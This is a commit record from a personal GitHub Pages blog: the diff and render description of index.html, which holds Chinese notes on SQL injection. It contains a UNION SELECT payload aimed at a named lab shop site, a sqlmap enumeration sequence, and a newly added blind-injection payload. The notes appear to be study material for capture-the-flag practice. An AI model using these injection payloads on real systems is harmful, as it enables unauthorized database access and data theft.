

Before and after one commit to zmh2000829/zmh2000829.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 3598-4534 px from the top of the page, without its empty margins (8-966 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Site updated: 2020-09-23 17:17:07

```diff
--- a/index.html
+++ b/index.html
@@ -129,6 +129,7 @@
 <p><a href="http://shop.aqlab.cn:8001/single.php?id=1&#39;" target="_blank" rel="noopener">http://shop.aqlab.cn:8001/single.php?id=1&#39;</a> and 1=2 union select 1,2,column_name from information_schema.columns where table_schema=database() and table_name=’cakes’ limit 2,1</p>
 <h3 id="sqlmap-get"><a href="#sqlmap-get" class="headerlink" title="sqlmap get"></a>sqlmap get</h3><p>python sqlmap -u *** </p>
 <p>先跑数据库 –dbms=***(跑出的数据库类型) 再跑表–tables 再跑列 -T “user” –columns 再跑字段 –C “username,….”</p>
+<p>‘ or length(database())&gt;100– adfa</p>
 
 
     </div>
```
Also changed, not shown: 2020/08/26/ctf-web5/index.html (+2 -1 lines).
